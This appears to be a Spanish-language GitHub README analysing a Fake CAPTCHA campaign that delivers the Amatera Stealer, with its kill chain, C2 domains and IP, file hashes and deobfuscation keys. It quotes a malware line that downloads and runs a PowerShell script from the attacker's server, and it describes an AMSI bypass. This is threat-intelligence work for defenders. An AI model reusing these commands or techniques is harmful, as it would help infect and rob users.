

# FakeCAPTCHA-Amatera-2026-

# 🚨 Fake CAPTCHA → Amatera Stealer (Enero 2026)

**Análisis de la campaña Fake CAPTCHA** → App-V LOLBIN → Google Calendar C2 → PNG Steganography → Amatera Stealer.

## 🎯 Kill Chain

Resumen Ejecutivo
Campaña MaaS enterprise-grade identificada por Blackpoint SOC. 4 variantes activas (boom/nim5/CDN/bdedc647) comparten cadena común: Fake CAPTCHA → App-V LOLBIN → execution gates → Google Calendar C2 → PNG steganography → Amatera Stealer.

Kill Chain

1. FAKE CAPTCHA → Win+R comando Base64 Unicode

   └── new-alias iex Invoke-Expression → herf54/nim5/sample.bin
   
2. wscript.exe → SyncAppvPublishingServer.vbs (App-V LOLBIN)

   └── SOLO Enterprise/Education Win10/11
   
3. CLIPBOARD GATE + anti-análisis

   └── ALLUSERSPROFILE_X validation
   
   └── RAM check (>2GB), archivo fantasma C:\NonExistentPath\781.cfg
   
4. GOOGLE CALENDAR C2 (.ics SUMMARY:povvv)

   └── sec-t2.fainerkern.ru → MD5 victim subdomain → svc-int-api-identity-token-issuer-v2-mn.in.net
   
5. PNG STEGANOGRAPHY (3x CDN redundancia)

   └── gcdnb.pbrd.co | iili.io | s6.imgcdn.dev
   
   └── LSB extraction → XOR(s8YUKQ0CqUd6HNwGSRDZ%Qpux1N9MKHh) → GZip PS1
   
6. AMSI BYPASS + shellcode staging

   └── XOR key: AMSI_RESULT_NOT_DETECTED
   
   └── NtAllocateVirtualMemory → Amatera PE
   
7. C2 212.34.138.4 (SSPI + WoW64 syscalls)
8. 
   └── Host: cdn.extremevideos.com
---------
README.md - IOCs Visual + 3 Fases (Listo para GitHub)

## 🎯 IOCs MAPEADOS A FASES

### 1️⃣ FAKE CAPTCHA → App-V LOLBIN
cdn.jsdelivr.net → herf54 (b61fe68f0b1bef12eed8a34769120d77579af9d3c529ac48dfe82a08eefa001b

Win+R → wscript.exe → SyncAppvPublishingServer.vbs

### 2️⃣ CLIPBOARD GATE → Google Calendar C2  
sec-t2.fainerkern.ru 
svc-int-api-identity-token-issuer-v2-mn.in.net 
SUMMARY:povvv

### 3️⃣ PNG STEGANOGRAPHY → Amatera
CDNs: gcdnb.pbrd.co | iili.io | s6.imgcdn.dev
PNG: qhs9hr5gPqez.png (bbfc4b48676aa78b5f18b50e733837a94df744da329fe5b1b7ba6920d9e02dc3)
CONTENIDO: PowerShell AMATERA STEALER (GZip compressed)

En este PNG  encontramos los comandos para la ejecucion.
ORDEN → XOR(s8YUKQ0CqUd6HNwGSRDZ%Qpux1N9MKHh) → Base64 → GZip decompress → PS1
DESOFUSCADO

1. [.Va$M=$]     → 0x2e5661244d3d24 → "powershell"
2. [DcP.\u]     → 0x4463502e5c75 → "-ep bypass"
3. [R{*Udq$]    → 0x527b2a55647124 → " -w hidden"
4. [OzZ],X]     → 0x4f7a5a5d2c58 → "iex ("
5. [:X\B_$j]    → 0x3a585c425f246a → "New-Object"

---
XOR: s8YUKQ0CqUd6HNwGSRDZ%Qpux1N9MKHh → 5339d1169e2187a482fcbc86ea94e9799bb9dbaf264622595ee6e94b54b51778
Shellcode: 18dad9cb91fb97a817e00fa0cd1cb9ab59f672b8ddab29f72708787f19bf6aa1
C2: 212.34.138.4 (Host: cdn.extremevideos.com)

Imagen de shellcode con sus variantes

variantes: 

En nim5 en content si desofuscamos hayamos: 
`$ErrorActionPreference = 'SilentlyContinue'; 
iex (New-Object Net.WebClient).DownloadString('http://212[.]34.138.4:8080/amatera.ps1'`

C2 Podemos localizarlo en las variantes en "nim5 =212[.]34.138.4" 
https://www.virustotal.com/gui/ip-address/212.34.138.4/relations 

## 📋 IOCs COMPLETOS

| Type | Indicator | Hash/Notes |
|------|-----------|------------|
| 🌐 Domain | cdn.jsdelivr.net | Fake CAPTCHA CDN |
| 🌐 Domain | sec-t2.fainerkern.ru | Calendar execution gate |
| 🌐 Domain | svc-int-api-identity-token-issuer-v2-mn.in.net | Victim MD5 subdomains |
| 🌐 Domain | gcdnb.pbrd.co, iili.io, s6.imgcdn.dev | PNG stego CDNs |
| 💾 File | herf54 | b61fe68f0b1bef12eed8a34769120d77579af9d3c529ac48dfe82a08eefa001b |
| 💾 File | basic.ics | 64d723ead9b43a049f9c8e23c8d4ec09ffabeac2d9b079c863c89a4aab7c9a45 |
| 💾 PNG | qhs9hr5gPqez.png, fOa2bcJ.png, YzkCM2.png | bbfc4b48676aa78b5f18b50e733837a94df744da329fe5b1b7ba6920d9e02dc3 |
| 🚀 C2 | 212.34.138.4 | Amatera Stealer |

-----

### **Hashes **
| **Variante** | **SHA256** |
|--------------|------------|
| **boom** | `c64529646839be71fdfa7261cd2f3b5e6fac929d53341dd134793a7194b2d433` |
| **nim5** | `25b77cacec19302d81a44fdeccf1fed9ff117aee3d7ca262a46d2c90f9aca42b` |
| **CDN sample.bin** | `7537cb0e719d9d0609eee7910542e877eae032707cbc15cfbd4c758f0040861f` |
| **bdedc647_b12.txt** | `0bcad4e8bfeebdb7b504c500db037c8930b3d69c53940002d3da395374c6f671` |
| **herf54 loader** | `b61fe68f0b1bef12eed8a34769120d77579af9d3c529ac48dfe82a08eefa001b` |
| **Google Calendar .ics** | `64d723ead9b43a049f9c8e23c8d4ec09ffabeac2d9b079c863c89a4aab7c9a45` |
| **PNG stego container** | `bbfc4b48676aa78b5f18b50e733837a94df744da329fe5b1b7ba6920d9e02dc3` |
| **Amatera PE shellcode** | `18dad9cb91fb97a817e00fa0cd1cb9ab59f672b8ddab29f72708787f19bf6aa1` |

**C2 final**: `212.34.138.4` (Host spoofing: `cdn.extremevideos.com`)

---
